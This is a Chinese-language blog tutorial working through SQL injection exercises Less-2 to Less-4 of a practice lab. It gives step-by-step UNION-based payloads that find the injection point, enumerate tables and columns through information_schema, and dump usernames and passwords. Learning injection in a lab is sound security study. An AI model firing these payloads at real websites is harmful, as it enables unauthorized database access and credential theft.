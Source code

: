 ```yaml
---
layout: post
title: SQL-报错注入
date: 2021-06-01 17:55 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 LESS2-布尔型注入](#0x0-less2-布尔型注入)
- [0x1 LESS3-字符型注入(单引号带括号)](#0x1-less3-字符型注入单引号带括号)
- [0x2 LESS4-字符型注入(双引号带括号)](#0x2-less4-字符型注入双引号带括号)

<!-- /TOC -->
## 0x0 LESS2-布尔型注入
- 正常访问  
![](/images/20210601-1.png)
- 引号报错  
![](/images/20210601-2.png)
- 判断注入点  
`?id = 1 and 1=1 #`  
`?id = 1 and 1=2 #`
![](/images/20210601-3.png)
- 测列数  
`?id = 1 and 1=1 order by 4 #`  
![](/images/20210601-4.png)
- 测数据显示点  
`?id=-1 and 1=1 union select 1,2,3 #  //注意id改成-1`  
![](/images/20210601-5.png)  
- 测试数据库名和用户权限  
`?id=-1 and 1=1 union select 1,datebase(),user() #`  
![](/images/20210601-6.png)  
- 测表名  
`?id=-1 and 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() #`  
![](/images/20210601-7.png)
- 测列名  
`?id=-1 and 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`  
![](/images/20210601-8.png)
- 测字段  
`?id=-1 and 1=1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users #`  
![](/images/20210601-9.png)

## 0x1 LESS3-字符型注入(单引号带括号)
- 报错信息  
![](/images/20210601-10.png)
根据报错信息可以推断存在一个括号  
![](/images/20210601-11.png)
实际表现为  
`select ('id=1') and 1=2 --+) //--+后被注释掉`  
等价于  
`select ('id=1') and 1=2`  
- 测列数  
`?id=1') and 1=1 order by 4--+`  
![](/images/20210601-12.png)
- 测数据显示点  
`?id=-1') and 1=1 union select 1,2,3--+`  
![](/images/20210601-13.png)
- 测试数据库名和用户权限  
`?id=-1') union select 1,database(),user() --+`  
![](/images/20210601-14.png)
**之后步骤与LESS-2一致**  

## 0x2 LESS4-字符型注入(双引号带括号)
- 报错信息  
![](/images/20210601-15.png)
- 注入点  
`?id= 1") and 1=2 --+`  
![](/images/20210601-16.png)
- 测数据显示点  
`?id= -1") union select 1,2,3 --+`  
![](/images/20210601-17.png)
- 测试数据库名和用户权限  
`?id= -1")  union select 1,database(),user() --+`  
![](/images/20210601-18.png) 
- 测表名  
`?id= -1")  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`  
![](/images/20210601-19.png)
- 测字段  
`?id= -1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'  and table_schema=database()--+`  
![](/images/20210601-20.png)
- 测数据
`?id= -1") union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users--+`
![](/images/20210601-21.png)